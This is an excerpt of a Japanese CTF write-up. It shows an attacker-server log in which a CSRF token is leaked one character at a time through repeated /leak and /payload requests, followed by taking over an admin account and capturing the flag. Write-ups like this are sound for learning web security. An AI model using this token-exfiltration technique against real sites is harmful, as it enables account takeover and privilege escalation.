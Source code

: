 ```bash
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=4 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 49
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=49 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499b
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499b HTTP/1.1" 200 -
~~~
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499baa3a69fa1f08dd63ef0255bb5d4
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499baa3a69fa1f08dd63ef0255bb5d4 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 499baa3a69fa1f08dd63ef0255bb5d45
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /leak?token=499baa3a69fa1f08dd63ef0255bb5d45 HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
~~~
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /token HTTP/1.1" 200 -
```
完了するとユーザ`satoki00`がadminとなっているため、ログインし`/admin/flag`へアクセスすればよい。  
![flag.png](site/flag.png)  
flagが得られた。  

## IERAE{G00d_Manipu1ation!_Over}